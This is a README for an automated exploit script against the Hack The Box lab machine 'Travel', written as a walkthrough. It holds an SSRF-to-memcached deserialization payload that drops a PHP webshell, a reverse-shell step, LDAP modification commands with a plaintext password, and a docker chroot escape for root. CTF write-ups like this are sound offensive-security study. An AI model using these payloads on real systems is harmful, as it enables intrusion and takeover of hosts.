


# Automated Script to complete the Travel box

## User Details:    
* We enumerate the initial set of entry points on the web side
* TLS/SSL certificate contains a list of domains
* We enumerate more on the domains
* We find that .git is exposed on a dev subdomain
* We can use [gittools] (https://github.com/internetwache/GitTools.git) to pull the contents
* Contents are a readme file, and two PHP scripts
* Reading through PHP code, we get a better idea of what is being built for the website
* RSS functionality is in development, and we can specify a RSS feed to the application by supplying a custom_feed_url
* Simplepie is used for retrieving/caching content. Reading through simplepie we learn how objects are cached/retrieved in memcached (https://github.com/WordPress/WordPress/blob/master/wp-includes/SimplePie/Cache.php#L83)
* The contents are cached in memcached and serialized in a PHP object
* There is an interesting class, "TemplateHelper" that looks like a viable target. On initialization it writes the contents into /logs
* We notice that there are protections against SSRF, command injection, etc 
* However, the SSRF check is weak, and we can get by it by specifying "Localhost:11211" or "0x7f000001:11211"
* The [Orange Tsai presentation]  (https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) provides us with how we could attack the application using SSRF

### Attack Path
* Therefore the attack path is: We can execute SSRF on memcached, force a key value pair into memcached, then have it deserialize our payload, so that it writes into /logs
* There are some constraints however, as the memcached key is xct_<md5>
* The memcached key is derived from the supplied URL in custom_feed_url
* From reading through SimplePie code, we see that the format of the <md5> value is md5(md5(url) + ":scp")
* We test out whether we can properly determine the MD5 value by supplying a known url (e.g. http://ourhost/rss.xml) then computing the md5 hash as mentioned above
* Once we make a call to the application with custom_feed_url=http://ourhost/rss.xml , we can call http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php to view the key/value pair stored in memcached
* Once we are able to verify that we can determine the memcached key correctly, our goal now is to inject our serialized object into the value of the memcached key

* Our php code will be: 
```
<?php
class TemplateHelper{
        public $file = 'ganapati.php';
        public $data = '<?php system($_GET["c"]);?>';
}

echo serialize(new TemplateHelper);

?>
```
* It will generate output:
`O:14:"TemplateHelper":2:{s:4:"file";s:12:"ganapati.php";s:4:"data";s:27:"<?php system($_GET["c"]);?>";}`

* We can use [Gopherus] (https://github.com/tarunkant/Gopherus) to help generate the payload
* In a nutshell we want to use SSRF to send gopherus://Localhost:11211/_%0d%0a<payload>. For example:
```
gopher://127.0.0.1:11211/_
set SpyD3r 4 0 133
O:14:"TemplateHelper":2:{s:4:"file";s:12:"ganapati.php";s:4:"data";s:27:"<?php system($_GET["c"]);?>";}

```

* As we notice, the key is hardcoded in gopherus, so we have to make modifications so that we're referring to the implementation that the web application expects... e.g. xct_<md5value>


### Automated User
* The automated script will handle computing the md5 hash to match the expected xct_<md5hash> memcached key
* Invoke SSRF with our payload to poison the cache with our serialized PHP object
* Invoke a request to deserialize the payload (in this case we are using a simple PHP webshell)
* Invoke the webshell contained within the /logs directory and send a reverse shell payload
* Set up a listener to catch the reverse shell
* Switch to interactive mode

Running the script with -t user
 

 
## Root Details:
* After we gain a user shell, we have to crack a credential discovered in a .sql script the /opt/wordpress directory
* Then we can SSH into the box as lynik-admin
* Enumerating the home directory of lynik-admin reveals interactions with LDAP, along with a BINDDN <password> entry in .viminfo
* Using commands to view the contents of LDAP:
`ldapsearch -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -b "dc=travel,dc=htb"`
* We noticed lynik-admin is an administrator of LDAP
* We can run commands to try to modify an entry 
`ldapmodify -x -w Theroadlesstraveled -D cn=lynik-admin,dc=travel,dc=htb"` 
* Upon viewing sshd_config we notice only lynik-admin and trvl-admin can log in over ssh with a password. Other users require a SSH keypair
* Also through enumeration, we notice there is a docker group
* The attack path we used here is: Modify an LDAP entry to include our SSH public key, and modify the LDAP entries to reflect trvl-admins UID, and force the user into the docker group


### Automation root
* Generate a RSA Keypair with:
`ssh-keygen -m PEM -p -t rsa -C "test@test.com"`
* ldapmodify will be called to modify the LDAP entry for user lynik and change uid to 1000 (trvl-admin)
* ldapmodify will be called to modify the LDAP entry for user lynik and change gid to 117 (docker)
* ldapmodify will be called to modify the LDAP entry for user lynik and add a SSH public key entry
* SSH into the box using public key auth
* Call docker and spawn a container that mounts the host filesystem
`docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh`

Running the script with -t root

